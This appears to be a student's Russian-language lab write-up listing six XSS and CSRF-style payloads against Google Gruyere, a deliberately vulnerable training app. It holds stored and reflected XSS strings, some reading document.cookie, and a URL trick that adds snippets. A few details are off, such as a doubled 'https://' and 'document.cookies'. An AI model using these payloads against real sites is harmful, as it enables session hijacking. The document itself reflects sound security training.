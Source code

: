 # Payloads для gruyere

## Payload 1

На странице `https://google-gruyere.appspot.com/624951287337740559451525490507763176737/newsnippet.gtl` можно вставить в поле ввода `<a onmouseover="alert('xss')" href="#"><p>наведи на текст</p></a>` (Stored XSS)

## Payload 2

При переходе по ссылке `https://google-gruyere.appspot.com/624951287337740559451525490507763176737/newaccount.gtl` можно использовать специальный параметр newaccount.gtl. Если заменить его на `<script>alert('XSS')</script>`, то при переходе по ссылке откроется окно с надписью XSS.

## Payload 3

В случае, если при создании нового сниппета в поле будет вставлен код `<img src=1 onerror=alert(hi)>` , то при каждом посещении пользователем страницы «Сниппеты» или главной страницы (Stored XSS) будет появляться сообщение «hi».

## Payload 4
При замене ссылки `https://google-gruyere.appspot.com/624951287337740559451525490507763176737/newsnippet2?snippet=snippet` на ссылку  `https://google-gruyere.appspot.com/624951287337740559451525490507763176737/newsnippet2?snippet=update+snippet`, добавляется  новый сниппет

## Payload 5

При переходе по ссылке `https://https://google-gruyere.appspot.com/624951287337740559451525490507763176737/example`. Параметр example можно заменить на пейлоад `<script>alert(document.cookies)</script>` для выполнения Reflected XSS инъекции в элементе `<div id="search-query-param">...</div>`, который покажет куки файлы пользователя

## Payload 6

При смене цвета профиля можно добавить в строку profile color любой JavaScript-код, например blue `onmouseover='alert(document.cookie)`. Этот код выполнял Stored XSS-инъекцию, которая при наведении на моё имя аккаунта выводила файлы cookie пользователя.
